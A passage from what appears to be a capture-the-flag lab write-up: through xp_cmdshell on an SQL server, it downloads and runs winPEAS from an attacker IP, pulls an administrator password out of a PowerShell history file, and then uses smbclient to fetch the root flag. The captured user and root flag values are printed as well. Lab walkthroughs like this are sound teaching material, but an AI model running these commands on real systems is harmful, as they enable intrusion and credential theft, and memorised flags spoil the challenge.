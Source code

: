 * Don’t forget to change both lines where this happens. Save and you’re done.

We can then proceed:

```bash
SQL> enable_xp_cmdshell
SQL> xp_cmdshell "powershell dir \ "
SQL> xp_cmdshell "powershell Invoke-WebRequest
10.10.15.125/winPEASx64.exe -OutFile \Users\Public\winPEASx64.exe"
SQL> xp_cmdshell "\Users\Public\winPEASx64.exe"
```

The `winPEASx64.exe` script outputs a lot of files with read permissions. One of them is
```bash
\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
What file contains the administrator's password? `ConsoleHost_history.txt`.

```bash
SQL> xp_cmdshell "powershell Get-Content \Users\sql_svc\Desktop\user.txt"
3e7b102e78218e935bf3f4951fec21a3
SQL> xp_cmdshell "powershell Get-Content
\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

Below we need to scape the `!` character as `\!`, otherwise the shell will misinterpret the command.
```bash
SQL> smbclient --user=Administrator --password=MEGACORP_4dm1n\!\! //10.129.78.109/C$
SQL> get Users\Administrator\Desktop\root.txt
```

Submit user flag: 3e7b102e78218e935bf3f4951fec21a3.

Submit root flag: b91ccec3305e98240082d4474b848528.
